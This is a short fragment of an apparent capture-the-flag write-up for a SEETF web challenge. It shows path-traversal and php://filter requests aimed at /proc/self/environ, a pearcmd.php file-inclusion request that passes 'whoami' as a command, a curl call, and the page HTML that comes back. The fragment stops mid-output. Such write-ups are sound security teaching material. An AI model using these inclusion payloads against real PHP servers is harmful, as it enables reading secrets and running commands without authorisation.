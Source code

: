 
Nothing comes out

view-source:http://sourcelessguessyweb.chall.seetf.sg:1337/?page=php://filter/resource=.../../../proc/self/environ

```
$ curl http://sourcelessguessyweb.chall.seetf.sg:1337/whysoserious 
WHY SO SERIOUS?
```

view-source:http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../../../usr/local/lib/php/pearcmd.php&c=whoami

```
  

<!--

\ /| |\ / /~~ /~~\ /~~ |~~ |~~\| /~~\ | |/~~

\ /\ / |---| \ / |__ | | |__ |-- |__/|| || ||__

\/ \/ | | | ___| \__/ ___||__ | \| \__/ \_/ ___|

-->

<html lang="en">

<head>

<meta charset="UTF-8">

<title>Why So Serious</title>

<link rel="stylesheet" href="[main.css](http://sourcelessguessyweb.chall.seetf.sg:1337/main.css)">

</head>

<body>

<div class="lazarus-pit">

<h1>WHY SO SERIOUS?</h1>

<a href="[phpinfo.php#:~:text=register_argc_argv](http://sourcelessguessyweb.chall.seetf.sg:1337/phpinfo.php#:~:text=register_argc_argv)" target="_blank">WHY NEED SOURCE?</a>

<p>RIDDLE ME THIS... WHAT'S THE FLAG?</p>

  

<div class="penguin">W</div><div class="vicki-vale">H</div><div class="cash">Y</div><div class="superman">S</div><div class="manhunter">O</div> <div class="superman">SERIOUS?</div> <div class="hawkman">WHY SO SERIO</div><div class="lantern">U</div><div class="arrow">S</div> <div class="grange">? WHY SO SERIOUS? WHY SO SE</div><div class="flash">R</div><div class="marion">I</div><div class="zucco">OUS? WHY SO SE</div><div class="tony">RIOUS? W</div><div class="zucco">H</div><div class="maxie">Y</div><div class="zeus">S</div><div class="wrath">O</div> <br> <!-- 1 -->

```